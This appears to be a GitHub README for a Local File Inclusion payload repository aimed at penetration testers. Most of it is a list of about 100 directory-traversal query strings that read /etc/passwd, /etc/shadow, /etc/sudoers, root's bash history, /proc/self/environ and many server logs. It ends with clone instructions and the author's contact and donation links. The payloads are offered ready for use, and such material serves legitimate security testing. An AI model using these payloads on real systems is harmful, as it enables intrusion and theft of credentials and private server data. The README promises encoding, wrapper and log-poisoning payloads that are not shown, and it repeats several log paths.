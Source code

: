 # 🚀 LFI Payloads

Welcome to **LFI Payloads**! This repository is designed to help security researchers and penetration testers identify and exploit **Local File Inclusion (LFI)** vulnerabilities with effective payloads. 🛡️

---

## 📂 What is LFI?
**Local File Inclusion (LFI)** is a web vulnerability that allows an attacker to include files on a server through the web browser. This can potentially lead to:

- 🕵️‍♂️ Information Disclosure
- 🐍 Code Execution
- 🔥 Server Compromise

---

## 📜 Payloads
This repository contains various payloads categorized for easy access:

✅ **Basic Payloads**  
✅ **Encoding Techniques**  
✅ **Traversal Techniques**  
✅ **Wrapper Bypass**  
✅ **PHP Filters**  
✅ **Log Poisoning Payloads**

### 🔥 100 Common LFI Payloads
```
?page=../../../../etc/passwd
?page=../../../../etc/hosts
?page=../../../../windows/win.ini
?page=../../../../boot.ini
?page=../../../../etc/shadow
?page=../../../../etc/group
?page=../../../../proc/self/environ
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../usr/local/apache/logs/access_log
?page=../../../../usr/local/apache/logs/error_log
?page=../../../../var/lib/mysql/mysql.sock
?page=../../../../etc/httpd/httpd.conf
?page=../../../../etc/apache2/apache2.conf
?page=../../../../etc/httpd/conf/httpd.conf
?page=../../../../etc/httpd/conf.d/vhosts.conf
?page=../../../../etc/nginx/nginx.conf
?page=../../../../etc/nginx/sites-enabled/default
?page=../../../../etc/ssl/openssl.cnf
?page=../../../../var/www/html/index.php
?page=../../../../home/user/.bash_history
?page=../../../../root/.bash_history
?page=../../../../etc/issue
?page=../../../../etc/network/interfaces
?page=../../../../etc/resolv.conf
?page=../../../../etc/hostname
?page=../../../../etc/hosts.allow
?page=../../../../etc/hosts.deny
?page=../../../../etc/security/opasswd
?page=../../../../etc/mtab
?page=../../../../etc/fstab
?page=../../../../etc/sudoers
?page=../../../../etc/pam.conf
?page=../../../../etc/profile
?page=../../../../etc/shells
?page=../../../../etc/inittab
?page=../../../../etc/passwd-
?page=../../../../etc/group- 
?page=../../../../etc/shadow- 
?page=../../../../etc/gshadow- 
?page=../../../../var/backups/passwd
?page=../../../../var/backups/group
?page=../../../../var/backups/shadow
?page=../../../../var/backups/gshadow
?page=../../../../dev/mem
?page=../../../../dev/kmem
?page=../../../../dev/port
?page=../../../../proc/mounts
?page=../../../../proc/partitions
?page=../../../../proc/version
?page=../../../../proc/self/status
?page=../../../../proc/self/cmdline
?page=../../../../proc/self/fd
?page=../../../../proc/self/maps
?page=../../../../proc/self/mountinfo
?page=../../../../proc/self/io
?page=../../../../proc/self/limits
?page=../../../../proc/self/cgroup
?page=../../../../proc/self/net/tcp
?page=../../../../proc/self/net/udp
?page=../../../../proc/self/net/raw
?page=../../../../proc/self/net/unix
?page=../../../../proc/self/net/snmp
?page=../../../../proc/self/net/dev
?page=../../../../proc/self/net/ip_conntrack
?page=../../../../proc/self/net/route
?page=../../../../proc/self/net/arp
?page=../../../../proc/self/net/fib_trie
?page=../../../../proc/self/net/netfilter
?page=../../../../var/run/utmp
?page=../../../../var/log/wtmp
?page=../../../../var/log/btmp
?page=../../../../var/log/lastlog
?page=../../../../var/run/utmpx
?page=../../../../var/log/wtmpx
?page=../../../../var/log/btmpx
?page=../../../../var/log/faillog
?page=../../../../var/log/auth.log
?page=../../../../var/log/secure
?page=../../../../var/log/messages
?page=../../../../var/log/syslog
?page=../../../../var/log/kern.log
?page=../../../../var/log/maillog
?page=../../../../var/log/yum.log
?page=../../../../var/log/dpkg.log
?page=../../../../var/log/apt/history.log
?page=../../../../var/log/apt/term.log
?page=../../../../var/log/aptitude
?page=../../../../var/log/boot.log
?page=../../../../var/log/cron
?page=../../../../var/log/daemon.log
?page=../../../../var/log/debug
?page=../../../../var/log/lpr.log
?page=../../../../var/log/user.log
?page=../../../../var/log/xferlog
?page=../../../../var/log/mail.info
?page=../../../../var/log/mail.warn
?page=../../../../var/log/mail.err
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
```

---

## ⚙️ Usage
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/LFI-Payloads.git
   ```
2. Navigate to the folder:
   ```bash
   cd LFI-Payloads
   ```
3. Use the categorized payloads as per your testing requirements.

---

## 🌟 Let's Connect!

Hello, Hacker! 👋 We'd love to stay connected with you. Reach out to us on any of these platforms and let's build something amazing together:

🌐 **Website:** [https://yogsec.github.io/yogsec/](https://yogsec.github.io/yogsec/)  
📜 **Linktree:** [https://linktr.ee/yogsec](https://linktr.ee/yogsec)  
🔗 **GitHub:** [https://github.com/yogsec](https://github.com/yogsec)  
💼 **LinkedIn (Company):** [https://www.linkedin.com/company/yogsec/](https://www.linkedin.com/company/yogsec/)  
📷 **Instagram:** [https://www.instagram.com/yogsec.io/](https://www.instagram.com/yogsec.io/)  
🐦 **Twitter (X):** [https://x.com/yogsec](https://x.com/yogsec)  
👨‍💼 **Personal LinkedIn:** [https://www.linkedin.com/in/cybersecurity-pentester/](https://www.linkedin.com/in/cybersecurity-pentester/)  
📧 **Email:** abhinavsingwal@gmail.com

---

## ☕ Buy Me a Coffee

If you find our work helpful and would like to support us, consider buying us a coffee. Your support keeps us motivated and helps us create more awesome content. ❤️

☕ **Support Us Here:** [https://buymeacoffee.com/yogsec](https://buymeacoffee.com/yogsec)

